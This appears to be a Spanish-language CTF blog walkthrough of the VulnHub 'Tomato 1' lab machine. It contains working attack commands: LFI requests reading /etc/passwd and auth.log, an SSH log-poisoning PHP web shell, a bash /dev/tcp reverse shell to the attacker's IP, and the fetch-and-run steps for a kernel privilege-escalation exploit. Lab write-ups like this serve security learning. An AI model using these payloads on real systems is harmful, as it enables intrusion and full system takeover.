 ```yaml
---
layout: single
title: Tomato 1 - VulnHub
excerpt: "Medium difficulty machine in which an LFI is exploited, gaining access to the SSH log and using a not so common privilege escalation method."
date: 2023-02-20
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-tomato1/tomato1.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - SSH log poisoning
  - LFI
  - C
  - Kernel
  - Ubuntu
  - PHP
---
```


Medium difficulty machine in which an LFI is exploited, gaining access to the SSH log and using a not so common privilege escalation method.

# Summary
- IP: 192.168.1.40
- Ports: 21,80,2211,8888
- OS: Linux (Ubuntu Xenial)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  80 -> Apache httpd 2.4.18
	-  2211 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
	-  8888 -> nginx 1.10.3

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.1.36 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p21,22,80 -sCV 192.168.1.36 -oN targeted
```


# Análisis de página web (puerto 80)

- En la web principal solo vemos la imagen de un tomate, hacemos escaneo de directorios con gobuster:

```bash
$gobuster dir -u 192.168.1.40 -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 100
```

- Encontramos el directorio "/antibot_image" accedemos a él.


# LFI y SSH log poisoning:

- Dentro encontramos una carpeta "/antibots" la abrimos y vemos varios archivos y directorios, el recurso "info.php" resulta sospechoso así que lo abrimos.

- Si revisamos el código fuente de este recurso nos encontramos con la siguiente linea:

```php
<!-- </?php include $_GET['image']; -->
```

- Lo cual nos hace sospechar de la existencia del parámetro "image" que nos puede derivar a un LFI, así que probamos accediendo al típico archivo "/etc/passwd" del sistema:

```
view-source:http://192.168.1.40/antibot_image/antibots/info.php?image=/etc/passwd
```

- Y al final de todo el contenido podemos ver la información del "/etc/passwd" confirmando así el LFI; enumeramos usuarios desde la terminal para mayor comodidad:

```bash
$curl -s "http://192.168.1.40/antibot_image/antibots/info.php?image=/etc/passwd" | grep "sh$"
```

```
root:x:0:0:root:/root:/bin/bash
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
```

- Buscamos archivos de logs para derivar el LFI a RCE, primero, enumerando el log de SSH:

```bash
$curl -s "http://192.168.1.40/antibot_image/antibots/info.php?image=/var/log/auth.log" | awk '/<\/div><\/body><\/html>/,0'
```

- Sí que existe el archivo y podemos visualizar su contenido, esto lo podemos aprovechar para realizar un SSH log poisoning, el cual nos permitirá la ejecución de comandos dentro del sistema de la máquina víctima (RCE).

- Para realizar el log poisoning, primero intentamos acceder vía SSH a la máquina víctima, escribiendo en la parte de "usuario" código PHP malicioso el cual será interpretado por el navegador:

```bash
$ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.40 -p 2211
```

- Con esto hecho, el archivo de log SSH ya debería estar envenenado, accedemos a este por el navegador y mediante el parámetro "cmd" que hemos creado, ejecutamos comandos:

```
view-source:http://192.168.1.40/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=ls -l /
```

- Confirmamos así el RCE y lo único que resta por hacer es entablar una reverse shell para ganar acceso al sistema:

```
view-source:http://192.168.1.40/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.63/443 0>%261"
```



# ESCALANDO PRIVILEGIOS:

- Hacemos una búsqueda típica de posibles vectores de escalada de privilegios pero no encontramos nada interesante.

- Revisamos la versión del sistema:

```bash
$lsb_release -a
```

```bash
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04 LTS
Release:	16.04
Codename:	xenial
```

```bash
$uname -a
```

```bash
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```


- En nuestra máquina atacante buscamos vulnerabilidades para esta versión del sistema, haciendo hincapié en vulnerabilidades a nivel de Kernel y que nos permita la escalada de privilegios:

```bash
$searchsploit linux kernel local privilege escalation 16.04 4.4
```

- Encontramos un exploit escrito en c:

```bash
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                               | linux/local/45010.c
```

- Lo descargamos, lo compilamos, y lo transferimos a la máquina víctima:

```bash
$searchsploit -m linux/local/45010.c
$gcc 45010.c -o exploit
$python3 -m http.server 80
```

- En la máquina víctima:

```bash
$cd /tmp/
$wget 192.168.1.31:8000/exploit
$chmod +x exploit
$./exploit
```

- Y seremos root.

